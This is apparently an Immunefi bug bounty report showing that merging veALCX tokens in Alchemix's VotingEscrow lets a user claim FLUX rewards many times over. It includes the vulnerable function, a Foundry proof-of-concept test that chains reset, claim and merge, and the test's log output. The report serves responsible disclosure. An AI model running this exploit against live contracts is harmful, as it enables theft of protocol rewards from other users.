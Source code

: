 
# Infinite minting of FLUX through Merge

Submitted on May 20th 2024 at 22:10:34 UTC by @Django for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31512

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro
Users are able to claim more FLUX rewards than they should simply by merging their tokens. Since the `merge()` operation increases the `_to` token's balance, the `_from` token can simply increment its unclaimed FLUX through `voter.reset()` and then merge its balance into `_to`. Then `_to` can claim with the increased balance. This operation can continue for as many iterations as desired.

## Vulnerability Details
Users increase their unclaimed FLUX balance through `voter.reset()` for their tokens after an epoch has passed. They can then claim their FLUX by calling `FLUX.claimFlux()`.

However, since the `claimableFlux()` FLUX balance of each token is taken at the current `block.timestamp`, a user can simply call `votingEscrow.merge()` to merge their already claimed tokens with an unclaimed token, increasing its balance and effectively doubling their rewards to claim.

```
    function claimableFlux(uint256 _tokenId) public view returns (uint256) {
        // If the lock is expired, no flux is claimable at the current epoch
        if (block.timestamp > locked[_tokenId].end) {
            return 0;
        }


        // Amount of flux claimable is <fluxPerVeALCX> percent of the balance
        return (_balanceOfTokenAt(_tokenId, block.timestamp) * fluxPerVeALCX) / BPS;
    }
```

## Impact Details
- Unauthorized claiming of FLUX rewards

## Output from POC
```
[PASS] testAccrueFluxByMergeAndReset() (gas: 4170557)
Logs:
  **Each token should receive 984462360468700917 tokens per epoch
  Claim token1. It claims 1x rewards (normal)
  FLUX Balance 984462360468700917
  --------------------
  Merge the already claimed token1 to the unclaimed token2. Token2's balance increases.
  Claim token2. It claims 2x rewards.
  FLUX Balance 2953387081421625754
  --------------------
  Merge the already claimed token2 to the unclaimed token3. Token3's balance increases.
  Claim token3. It claims 4x rewards.
  FLUX Balance 5906774162843251509
  --------------------
  Merge the already claimed token3 to the unclaimed token4. Token4's balance increases.
  Claim token4. It claims 8x rewards.
  FLUX Balance 9844623604749101184
  --------------------
  After 3 merges, user has claimed 250% more rewards (10x/4x)
```



## Proof of Concept

```
function testAccrueFluxByMergeAndReset() public {
        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        uint256 tokenId2 = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        uint256 tokenId3 = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        uint256 tokenId4 = createVeAlcx(admin, TOKEN_1, MAXTIME, false);

        hevm.startPrank(admin);

        uint256 claimedBalance = flux.balanceOf(admin);
        uint256 unclaimedBalance = flux.getUnclaimedFlux(tokenId1);

        assertEq(claimedBalance, 0);
        assertEq(unclaimedBalance, 0);

        // Reset token1 to claim the usual amount of flux
        voter.reset(tokenId1);
        unclaimedBalance = flux.getUnclaimedFlux(tokenId1);
        console.log("**Each token should receive %i tokens per epoch", unclaimedBalance);
        console.log("Claim token1. It claims 1x rewards (normal)");
        flux.claimFlux(tokenId1, flux.getUnclaimedFlux(tokenId1));
        console.log("FLUX Balance %s", flux.balanceOf(admin));
        console.log("--------------------");

        console.log("Merge the already claimed token1 to the unclaimed token2. Token2's balance increases.");
        veALCX.merge(tokenId1, tokenId2);

        console.log("Claim token2. It claims 2x rewards.");
        voter.reset(tokenId2);
        flux.claimFlux(tokenId2, flux.getUnclaimedFlux(tokenId2));
        console.log("FLUX Balance %s", flux.balanceOf(admin));
        console.log("--------------------");

        console.log("Merge the already claimed token2 to the unclaimed token3. Token3's balance increases.");
        veALCX.merge(tokenId2, tokenId3);

        console.log("Claim token3. It claims 4x rewards.");
        voter.reset(tokenId3);
        flux.claimFlux(tokenId3, flux.getUnclaimedFlux(tokenId3));
        console.log("FLUX Balance %s", flux.balanceOf(admin));
        console.log("--------------------");

        console.log("Merge the already claimed token3 to the unclaimed token4. Token4's balance increases.");
        veALCX.merge(tokenId3, tokenId4);

        console.log("Claim token4. It claims 8x rewards.");
        voter.reset(tokenId4);
        flux.claimFlux(tokenId4, flux.getUnclaimedFlux(tokenId4));
        console.log("FLUX Balance %s", flux.balanceOf(admin));
        console.log("--------------------");

        console.log("After 3 merges, user has claimed 250% more rewards (10x/4x)");

        hevm.stopPrank();
    }
```